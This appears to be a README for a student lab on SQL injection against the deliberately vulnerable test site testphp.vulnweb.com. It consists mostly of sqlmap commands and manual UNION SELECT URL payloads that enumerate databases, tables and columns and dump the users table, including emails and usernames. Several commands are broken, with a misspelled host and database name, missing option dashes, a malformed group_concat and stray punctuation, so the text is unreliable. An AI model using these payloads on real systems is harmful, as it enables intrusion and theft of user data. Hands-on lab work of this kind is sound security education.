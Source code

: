 SQL INJECTION ATTACK

The following are implemented the SQl Injectoin attack:

1. How would you find if a site is vulnerable to SQL injection or not?
2. Implement SQL Injection Attack and perform the following on the Test Site
3. Find the database names
4. Find the relation/table names
5. Find the attribute/column names
6. Find the records in each table

Performed the above tasks by

a. Using SQLMAP tool (In Kali Linux inside VMWare platform)

b. Manually (In the host machine itself, over a browser, via sql code injection)

3.  Step Wise output for each task (Screen Shot as well as the command for each task)

4.  Reason out what happens at each step

SCRIPT STEPS:

Exploring the functionalities of sqlmap Use inside Kali Linux installed in VMWare

1. Go to Test Site : testphp.vulnweb.com – acuart site

2. Find the records in each table Perform the above tasks by a Using SQLMAP tool as
   "sqlmap –u link –dbs"

3. Fetch the details of all tables as " sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%27
   D acurat --tables"

4. Fetching the details of columns in users tables as "sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%27
   D acurat - T users --columns"

5. Dump command as "sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%27
   D acurat - T users -C adesc,aname,artist_id,--dump"

6. For email as "sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1%27
   D acurat - T users -C email --dump"

7. For Manual testing as "http://testphp.vulneb.com/artists.php?artist=-1 union select
   1,2,group\_\_concat(table_name)from information_schema.tables where table_schema=database()--

8. http://testphp.vulneb.com/artists.php?artist=1 union select
   1,2,group\_\_concat(table_name)from information_schema.tables where table_schema=database()—

9. http://testphp.vulneb.com/artists.php?artist=-1 union select 1,2,group\_\_concat(uname)from users
